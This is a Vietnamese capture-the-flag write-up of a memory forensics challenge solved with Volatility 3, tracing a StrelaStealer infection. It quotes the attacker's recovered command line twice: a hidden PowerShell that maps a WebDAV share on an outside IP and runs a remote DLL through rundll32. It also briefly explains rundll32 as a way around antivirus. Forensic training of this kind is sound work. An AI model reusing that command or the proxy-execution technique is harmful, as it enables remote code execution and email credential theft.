# First to this challenge

- Ở trong bài này, họ yêu cầu ta sử dụng kiến thức về vola và memory forensics để tìm ra các đáp án.

# Head to challenge
## Q1

![image](https://github.com/user-attachments/assets/6a71cdbe-b66a-4f01-ad80-930c2ab1aec7)

### Analysis

Họ yêu cầu ta phải tìm ra malicious process và tên của nó, ở trong volatility 3 có 1 plugin tên là windows.pslist, nó dùng để list ra các process đang chạy. Lúc này ta sẽ dựa vào nó để tìm ra.

#### Walkthrough

``` 3692    4120    powershell.exe  0xc90c0358b080  17      -       1       False   2024-07-15 07:00:03.000000 UTC  N/A     Disabled ```

Ở đây, sau khi xem qua, mình thấy rằng có một chút vấn đề về process của powershell, 1 process về terminal và command đáng nhẽ sẽ phải có thời gian ngừng lại, vậy nhưng powershell thì không, nó luôn chạy ngầm trong máy và có đến 17 threads đang chạy, tức là nó đang dùng tài nguyên của máy.

Để tiếp tục hiểu rõ hơn, mình sử dụng tiếp plugin của vol3 là cmdline để list ra các powershell commandline mà process đang chạy

``` 3692    powershell.exe  powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry ```

Lúc này, mình có thể confirm 100% đây là malicious activity. Vì mình có thể thấy rằng, attacker đang sử dụng powershell để map một IP nào đó và chạy dll32 để bypass lớp bảo vệ và tải về dll sus là 3435.dll và còn đang chạy hidden để cho không bị phát hiện

-> Đáp án: powershell.exe

## Q2

![image](https://github.com/user-attachments/assets/54b94c98-794e-4b7b-af5a-ef5a3d9711f2)

### Walkthrough

Vì mình đã tìm được process của malicious process trước, nên mình đã biết được rằng PPID của powershell.exe là 4120

## Q3

![image](https://github.com/user-attachments/assets/b613611d-d695-4757-871f-377b2ed159bc)

### Analysis

Tiếp tục với câu 1, ở câu này, mình phải đi tìm file name được sử dụng bởi malware thực thi payload tiếp theo sau khi đã tấn công qua câu lệnh powershell ở trên câu 1

#### Walkthrough

``` 3692    powershell.exe  powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry ```

Giống như câu 1, mình tìm ra rằng attacker đang dùng rundll32 để chạy 3435.dll, một dynamic linked library đã được map bằng một IP lạ và 8888 cũng không phải là port default, nên ta có thể xác định đây là 1 IP sú.

## Q4

![image](https://github.com/user-attachments/assets/dc16bbab-57a2-4b68-ac82-ab84e9d438f3)

### Walkthrough

Tiếp tục với powershell script ở các câu trước, mình có thể chỉ ra rằng shared directory là davwwwroot

## Q5

![image](https://github.com/user-attachments/assets/aae22828-8e88-43ad-a649-1db6bc9bae79)

### Walkthrough

Sau khi google một khoảng thời gian, mình tìm ra được sub-technique ở đây là System Binary Proxy Execution: Rundll32, MITRE ID là T1218.011

Để hiểu hơn thì, Attacker có thể trigger rundll32.exe, đây là 1 chương trình giúp thực thi các file dll trên windows và sẽ có thể bypass các trình duyệt virus vì đây là 1 default process của windows và để sử dụng nó thì tức là bạn đã có full permissions của windows. Nên điều này có thể trigger các trình duyệt virus để bypass nó.

Để trigger Rundll32.exe, ta có ví dụ là **rundll32.exe {DLLname, DLLfunction}**

## Q6

![image](https://github.com/user-attachments/assets/78bf5696-72cb-4c04-946c-f2c2617f94c9)

### Walkthrough

Ở đây, ta phải tìm username. Trong vol3 có 1 plugin giúp ta tìm ra các thông tin cơ bản của các process như username, các directory đi kèm và root folder của process đó.

Từ câu 1, ta biết rằng malicious process là powershell, vì vậy nên giờ ta chỉ cần dùng cmdline như sau:

``` python3 volatility3/vol.py -f 192-Reveal.dmp windows.envars | grep powershell.exe ```

Và ta sẽ tìm được ``` 3692    powershell.exe  0x1cb6aa61f90   USERNAME        Elon  ```

Vậy, username ở đây là Elon

## Q7

![image](https://github.com/user-attachments/assets/6fd3777b-57a9-43a4-b0cf-7fbc1262d240)

### Walkthrough

Vẫn tiếp tục là powershell script từ câu 1, như mình đã đề cập tới, có 1 IP lạ đã xuất hiện và đóng vai trò như là 1 website để cho rundll32 có thể map đến đó và run 3435.dll

Sử dụng virustotal để kiểm tra thử

![image](https://github.com/user-attachments/assets/2e61354f-eb37-47ef-9140-eedc8cc46175)

Activity related to STRELASTEALER. Vậy, ta biết được rằng malware family ở đây thuộc về STRELASTEALER.

STRELASTEALER là một họ malware được sử dụng để đánh cắp dữ liệu email từ các trình gửi email nổi tiếng và sẽ gửi nó về C2 server của attacker.
